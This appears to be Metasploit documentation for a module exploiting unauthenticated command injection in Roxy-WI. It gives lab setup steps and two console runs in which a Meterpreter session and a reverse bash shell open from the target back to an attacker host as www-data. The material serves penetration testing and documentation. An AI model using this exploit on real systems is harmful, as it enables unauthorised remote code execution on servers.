 ## Vulnerable Application

### Description

This module exploits an unauthenticated command injection vulnerability in Roxy-WI prior to version 6.1.1.0.
Successful exploitation results in remote code execution under the context of the web server user.


### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out required python and other packages.

https://roxy-wi.org/installation.py#manual

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxy_wi_exec`
4. Set `RHOST` to the address of the target Roxy-WI machine.
5. Set `LHOST` to the address of your attacking machine.
8. Run `exploit`
9. Do: `run`
10. You should get a shell as the user running the Roxy-WI server.

## Options
Set `TAGETURI` if the Roxy-WI is installed at a custom path.

### TARGETURI
The base path to Roxy-WI. The default value is `/`

## Scenarios

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Sending stage (40164 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:37394) at 2022-07-21 13:49:23 +0300
[+] Exploit successfully executed.

meterpreter > pwd
/var/www/haproxy-wi/app
```

You can also use cmd payloads.

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.116:37396) at 2022-07-21 13:50:23 +0300
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)```
```

